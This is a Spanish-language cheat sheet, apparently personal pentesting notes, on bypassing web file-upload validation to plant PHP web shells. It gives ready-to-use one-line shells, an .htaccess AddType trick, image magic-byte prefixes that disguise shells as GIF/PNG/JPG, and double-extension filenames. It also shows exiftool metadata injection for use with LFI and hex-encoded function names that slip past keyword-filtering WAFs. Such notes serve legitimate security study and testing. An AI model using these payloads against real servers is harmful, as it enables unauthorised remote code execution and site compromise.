

_1ro_: Intentar subir un archivo php o con cualquier extension a ver si lo acepta. 

_2do_: Revisar como se hace la validacion, si se puede eliminar desde las devTools significa que la validacion se hace en el front --> Croto. 

_3ro_: Intentar subir archivos con extensiones alternativas a las principales, por ej:
php -> phtml, php2, php3, php4, php5, etc.

-------
_4to_: Si los archivos php y sus alternativas estan en una blacklist, se puede subir un archivo llamado `.htaccess`, que sirve para hacer una configuracion de Apache y le pasamos el siguiente contenido:

```
AddType application/x-httpd-php .php16
```

Eso lo q hace es q entiende `.php16` como **.php**, luego se puede subir el archivo .php como .php16 

------
_5to_ --> Validaciones por tamano:

Intentar q el archivo .php sea lo mas breve posible: 

```php
<?php system($_GET[0]);?>
```

```php
<?=`$_GET[0]`?>
```

-------------
_6to_ -> Validaciones por Content-Type:

Cambiar el Content-Type de las peticiones:




-------
_7mo_ -> Validacion por los primeros bytes (file signature/magic bytes) del archivo:

Si hacemos un _xxd_ a, por ejemplo, un archivo _php_, siempre los primeros bytes van a ser iguales, cualquiera sea el contenido, y se hacen **validaciones por los primeros bytes**.

Si forzamos a que los primeros bytes sean de otro tipo de archivo, por ejemplo GIF o jpg, quizas bypasseamos la validacion.

_GIF_
```php
GIF8;
<?=`$_GET[0]`?>
```

_png_
```php
\x89PNG\r\n\x1a\n
<?=`$_GET[0]`?>
```

_jpg o jpeg (es lo mismo)_
```php
`\xFF\xD8\xFF`
<?=`$_GET[0]`?>
```

- GIF: `47 49 46 38` → `GIF8`
- JPG: `FF D8 FF`
- PNG: `89 50 4E 47`

--------
_8vo_ -> Si el servidor valida unicamente que se encuentre la cadena **jpg**, **png** o lo que sea dentro del archivo q subimos, podemos hacer un ataque de _doble extension_, poniendole el nombre cmd.jpg.php al archivo por ejemplo.

----------------------

_9no_ -> Agregar metadatos a un gif con codigo malicioso:

Usando la herramienta _exiftool_, podemos ver los metadatos de un recurso y agregarle:

```bash
exiftool -Comment='<?php system("whoami");?>' imagen.jpg
```

Si encontramos un LFI y subimos el archivo, al apuntar a la imagen con el metadato ese incluido, deberiamos poder ver _whoami_ en algun lado

---
_10mo_ -> Si el servidor tiene un WAF que bloquea subida por palabras claves, por ejemplo, _system_; _exec_ u _otros_, podemos poner el siguiente contenido en el archivo:

```php
<?php
$c = $_GET['cmd'];
echo `$c`
<?
```

O tambien se puede hacer:
```php
<?php
"system"($_GET['cmd']);
<?
```

Tambien se puede poner la funcion en hexadecimal (_entre comillas_):
```php
<?php
"\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
<?
```

_system_ -> `\x73\x79\x73\x74\x65\x6d`
_exec_ -> `\x65\x78\x65\x63\x0a`
